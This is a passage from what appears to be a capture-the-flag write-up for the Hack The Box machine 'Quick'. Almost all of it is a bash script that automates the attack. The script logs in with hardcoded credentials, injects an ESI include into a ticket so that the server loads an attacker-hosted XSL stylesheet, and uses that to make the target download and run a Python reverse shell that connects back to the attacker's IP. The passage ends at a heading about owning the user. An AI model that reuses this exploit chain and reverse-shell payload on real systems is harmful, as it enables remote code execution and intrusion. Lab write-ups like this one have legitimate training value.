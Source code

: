 ```bash
#!/bin/sh
# Run the local http server, a netcat listener on port 22473, and then run this script for a reverse shell

# Get our IP on HTB
htbip=$(ifconfig | grep "destination 10.10" | sed 's/.*destination //')
echo "htb ip ${htbip}"

# Create a python script for a reverse shell with the HTB ip
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('${htbip}',22473));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i'])" > rev-shell.py

# Put this file into the cache, I think this is required to have happened at least once
curl --silent http://quick.htb:9001/index.php > /dev/null

# Login and get a session cookie
sess=$(curl -v 'http://quick.htb:9001/login.php' --data 'email=elisa%40wink.co.uk&password=Quick4cc3%24%24' 2>&1 | grep PHPSESSID | sed 's/.*PHPSESSID=//' | sed 's/; Path=\///')
echo "Session cookie ${sess}"

# Grab a ticket value so we don't actually hit an existing one
tkt=$(curl 'http://quick.htb:9001/ticket.php' -H "Cookie: PHPSESSID=${sess}" | grep TKT | sed 's/.*value="TKT-//' | sed 's/"\/>//')
echo "Got ticket number ${tkt}"

# Create the ticket with the esigate exploit includes
curl --silent 'http://quick.htb:9001/ticket.php' -H "Cookie: PHPSESSID=${sess}" --data "title=title&msg=%3Cesi%3Ainclude+src%3D%22http%3A%2F%2Flocalhost%3A9001%2Findex.php%22+stylesheet%3D%22http%3A%2F%2F${htbip}%2Fquick%2Fevil.xsl%22%3E%0D%0A%3C%2Fesi%3Ainclude%3E&id=TKT-${tkt}"
echo "Ticket with esigate exploit created"

# Download the python rev shell
cat part1.xsl > evil.xsl
echo "<xsl:variable name=\"cmd\"><![CDATA[wget http://${htbip}/quick/rev-shell.py]]></xsl:variable>" >> evil.xsl
cat part2.xsl >> evil.xsl
curl --silent "http://quick.htb:9001/search.php?search=${tkt}" -H "Cookie: PHPSESSID=${sess}"
echo "Python reverse shell downloaded"

# Run the python reverse shell
cat part1.xsl > evil.xsl
echo "<xsl:variable name=\"cmd\"><![CDATA[python rev-shell.py]]></xsl:variable>" >> evil.xsl
cat part2.xsl >> evil.xsl
curl --silent "http://quick.htb:9001/search.php?search=${tkt}" -H "Cookie: PHPSESSID=${sess}"
echo "Connecting..."
```

If done properly we should now have a reverse shell.

### reverse shell and owning user

